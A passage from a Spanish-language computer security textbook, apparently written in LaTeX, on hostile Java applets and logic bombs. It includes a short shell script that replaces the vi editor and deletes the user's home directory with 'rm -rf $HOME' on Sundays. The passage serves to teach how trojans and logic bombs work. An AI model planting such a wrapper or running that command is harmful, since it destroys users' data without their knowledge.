 {\it shellscript}; antes de hacerlo muestra el mensaje {\it `Java is safe, and 
UNIX viruses do not exist'}, para despu\'es localizar todos los ficheros {\it
shell} en el directorio {\it \$HOME}, comprobar cu\'ales est\'an infectados, e
infectar los que no lo est\'an.\\
\\Aunque en un principio no se tom\'o muy en serio el problema de los {\it
applets} hostiles, poco tiempo despu\'es la propia {\it Sun Microsystems} 
reconoci\'o la problem\'atica asociada y se puso a trabajar para minimizar los
potenciales efectos de estos {\it applets}; principalmente se han centrado 
esfuerzos en controlar la cantidad de recursos consumidos por un programa y en
proporcionar las clases necesarias para que los propios navegadores monitoricen
los {\it applets} ejecutados. No obstante, aunque se solucionen los problemas
de seguridad en el c\'odigo, es probable que se puedan seguir utilizando {\it
applets} como una forma de ataque a los sistemas: mientras que estos programas
puedan realizar conexiones por red, no habr\'an desaparecido los problemas.
\subsection{Bombas l\'ogicas}
Las bombas l\'ogicas son en cierta forma similares a los troyanos: se trata de
c\'odigo insertado en programas que parecen realizar cierta acci\'on \'util. 
Pero mientras que un troyano se ejecuta cada vez que se ejecuta el programa que
lo contiene, una bomba l\'ogica s\'olo se activa bajo ciertas condiciones, como
una determinada fecha, la existencia de un fichero con un nombre dado, o el 
alcance de cierto n\'umero de ejecuciones del programa que contiene la bomba;
as\'{\i}, una bomba l\'ogica puede permanecer inactiva en el sistema durante 
mucho tiempo sin activarse y por tanto sin que nadie note un funcionamiento
an\'omalo hasta que el da\~no producido por la bomba ya est\'a hecho. Por 
ejemplo, imaginemos la misma situaci\'on que antes ve\'{\i}amos para el troyano:
alguien con el suficiente privilegio renombra a {\tt vi} como {\tt vi.old}, y
en el lugar del editor sit\'ua el siguiente c\'odigo:
\tt
\begin{quote}
\begin{verbatim}
#!/bin/sh
if [ `date +%a` = "Sun" ]; 
    then
        rm -rf $HOME
    else
        vi.old $1
fi
\end{verbatim}
\end{quote}
\rm
Este cambio en el sistema puede permanecer durante a\~nos\footnote{Obviamente,
si esto es as\'{\i}, denota una escasa preocupaci\'on por la seguridad en ese
sistema.} sin que se produzca
un funcionamiento an\'omalo, siempre y cuando nadie edite ficheros un domingo;
pero en el momento en que un usuario decida trabajar este d\'{\i}a, la bomba
l\'ogica se va a activar y el directorio de este usuario ser\'a borrado.
